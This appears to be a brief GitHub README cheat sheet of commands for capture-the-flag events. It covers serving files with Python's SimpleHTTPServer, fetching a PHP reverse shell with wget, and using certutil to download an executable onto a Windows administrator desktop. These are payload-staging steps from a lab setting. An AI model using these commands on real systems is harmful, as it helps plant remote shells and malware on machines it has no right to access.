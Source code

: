 # CTF-cheat-sheet
Some useful commands I use when participating in CTF events.

File transfer using SimpleHTTPServer - a Pyhton webserver

  sudo python -m SimpleHTTPServer 80

  wget http://10.10.10.10/php-reverse-shell.php

  certutil -urlcache -f httP://10.10.14.9/sh.exe C:\users\administrator\desktop\flags\sh.exe

